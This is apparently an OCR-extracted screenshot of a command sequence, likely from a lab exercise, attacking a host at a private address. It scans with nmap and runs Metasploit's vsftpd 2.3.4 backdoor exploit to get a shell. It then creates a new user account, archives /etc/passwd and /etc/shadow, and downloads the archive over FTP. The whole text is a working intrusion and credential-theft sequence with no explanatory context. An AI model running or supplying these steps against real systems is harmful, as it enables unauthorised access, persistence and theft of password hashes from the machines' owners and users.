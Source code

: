 ```
sudo nmap -Pn -sV 192.168.12.133
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.12.133
exploit
id
uname -a
whoami
adduser newuser
cd /home/newuser
tar czvf user.tgz /etc/passwd /etc/shadow
ftp 192.168.12.133
newuser
system
binary
get user.tgz
chmod 644 user.tgz
get user.tgz
```

